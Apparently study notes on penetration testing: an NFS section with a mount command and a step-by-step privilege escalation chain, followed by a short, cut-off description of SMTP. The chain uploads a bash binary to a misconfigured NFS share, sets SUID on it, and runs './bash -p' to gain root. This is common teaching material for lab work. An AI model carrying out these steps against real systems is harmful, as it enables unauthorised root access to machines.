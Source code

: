 ```
mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock 
                     ^^ not needed
Now you can cd into your newly made mount
```

**Exploit/Privilege escalation**

root_squash - enabled by default, it prevents anyone connecting to the NFS share from having root

Remote users are assigned "nfsnobody"

 SUID - means that files can be run with permissions of the owner/group

 Upload files to the NFS share - with right permission (reverse shell)

```
	NFS Access ->
	        Gain Low Privilege Shell -> 
			Any files important for ssh like .ssh keys ?
	            Upload Bash Executable to the NFS share ->
			Cd into the mount and upload the executable bash
	                Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->
			chmod +srx bash
	                    Login through SSH ->
	                        Execute SUID Bit Bash Executable ->
				./bash -p (-p persists permissions)
                            ROOT ACCESS
```

---





#### SMTP (25/tcp)

[Top](ports.html)

**Simple Mail Transfer Protocol**

Utilizes to handle the sending of emails. A protocol pair is required, comprising of SMTP and POP/IMAP

​	Verifies who is sending emails through the SMTP server

​	Sends outgoing mail

​	If outgoing mail cant be delivered it sends the message back to the sender

When setting up an email on third-party email clients, like thunderbird, you will also have to configure the SMTP server

 	Email protocols that transfer of email between client and mail server

​			**POP** - Post Office Protocol - downloads the inbox from the mail server to the client

​			**IMAP **- Internet Message Access Protocol - synchronizes the current inbox with new mail on the server downloading anything new, changes persist 			with another computer

**How it Works?** 
